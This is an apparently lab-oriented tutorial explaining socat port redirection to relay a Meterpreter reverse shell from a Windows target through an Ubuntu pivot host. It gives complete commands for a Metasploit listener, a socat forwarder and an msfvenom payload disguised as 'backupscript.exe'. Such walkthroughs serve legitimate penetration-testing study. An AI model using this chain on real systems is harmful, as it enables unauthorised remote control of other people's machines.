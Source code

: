 
## What is Socat Redirection (in simple words)?

Imagine you want to **talk to someone (Windows target)**, but you can’t **reach them directly**. However, there’s a **mutual friend (Ubuntu)** who **can talk to both of you**.

So, you tell your friend (Ubuntu):  
👉 “Hey, if the Windows guy talks to you, please pass that message to me!”

That’s **Socat** — a **helper tool** that forwards data between two people (or computers). It acts like a **middleman** for network connections.

## What are we trying to do?
You want to:

1. Get **remote control (reverse shell)** of a Windows computer.
2. But you can’t directly talk to it from your attack laptop.
3. You **can talk to Ubuntu**, and Ubuntu **can talk to Windows**.
4. So, you use **Socat on Ubuntu** to forward Windows's connection **back to you**.

💡 It’s like **passing secret notes through a friend** who sits between you and the target.

### Step 1: Start a listener (on your attacker machine)
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 80 # `set LPORT 8080` se a non-privileged port (above 1024)
run
```
This means:  
"Hey, I’m listening on port 80. If anyone calls me, I’ll take control!"

### Step 2: Set up the **middleman** (Ubuntu with Socat)
On Ubuntu, run:
```bash
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

This says:

> “If someone talks to me (Ubuntu) on **port 8080**, I’ll forward their message to **my hacker friend (you)** on port **80**.”

### Step 3: Make a payload for Windows
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o backupscript.exe
```
👉 “Call Ubuntu on 172.16.5.129:8080”

### Step 4: Run the payload on Windows

You somehow run `backupscript.exe` on the Windows machine (maybe upload it through RDP, SMB, PowerShell, etc.).

As soon as it runs:
- Windows tries to **connect to Ubuntu:8080**
- **Ubuntu forwards that to you**
- Your listener catches it
- 🔥 **You get a shell!**